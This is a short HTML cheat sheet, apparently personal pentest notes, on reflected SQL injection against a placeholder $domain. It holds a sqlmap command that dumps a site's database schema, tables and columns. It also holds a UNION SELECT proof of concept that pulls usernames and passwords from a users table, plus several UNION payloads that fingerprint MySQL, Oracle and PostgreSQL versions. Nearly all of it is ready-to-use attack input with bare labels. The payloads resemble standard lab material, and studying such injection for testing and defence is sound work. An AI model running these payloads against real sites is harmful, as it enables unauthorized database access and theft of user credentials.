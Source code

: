 <h1>SQL Injection</h1>

<h2>Reflected SQL Injection:</h2>
<code>sqlmap --url https://$domain/filter?category=Lifestyle --dump --schema --tables --columns</code>

<p>Database: public</p>
<p>Table: users</p>

<h4>POC</h4>
<code>https://$domain/filter?category=Lifestyle'+UNION+SELECT+username,+password+FROM+users--</code>

<h5>Version</h5>
<p>First detect numbers of columns</p>
<code>' UNION SELECT NULL,@@version</code>
<code>' UNION SELECT NULL,NULL,* FROM v$version</code>
<code>' UNION SELECT banner FROM v$version</code>
<code>' UNION SELECT version FROM v$instance</code>
<code>' UNION SELECT version()</code>

